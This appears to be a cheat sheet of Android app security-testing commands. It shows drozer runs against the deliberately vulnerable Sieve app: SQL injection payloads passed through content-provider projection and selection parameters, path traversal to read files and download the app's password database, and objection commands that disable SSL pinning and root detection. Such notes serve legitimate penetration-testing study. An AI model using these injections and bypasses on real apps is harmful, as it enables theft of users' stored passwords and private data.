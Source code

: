 ```
# run an activity (PWList) directly using:
dz&gt; run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList

# list accessible content URIs
dz&gt; run scanner.provider.finduris -a com.mwr.example.sieve

# database based content URIs
dz&gt; run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
dz&gt; run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"
dz&gt; run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
dz&gt; run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"
dz&gt; run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/--projection "*FROM Key;--"

# filesystem based content URIs
dz&gt; run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
dz&gt; run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db /home/abhay/Desktop/database.db
Written 4096 bytes
```

### objection

It can be run without having to patch. I tried patching an app but it didn't run (maybe it was tamper-proof). You first need to be rooted, then transfer the frida-server binary to your android device and run it. Then on your PC:

`$ objection --gadget="org.telegram.messenger" explore`

Some useful objection commands:

```
# env
# android sslpinning disable
# android keystore list
# android root disable
```

### r2

```
$ rafind2 -ZS permission AndroidManifest.xml
$ rabin2 -I classes.dex
$ r2 classes.dex

&gt; izq    ; rabin2 print string quietly
&gt; izj~{} ; json formatted prettyprint
&gt; ic     ; class names and their methods
&gt; ii     ; imported methods
&gt; f~+verify  ; grep flags by "verify"
&gt; s sym.method.blah ; seek to method
&gt; pdf    ; print disassembly
```
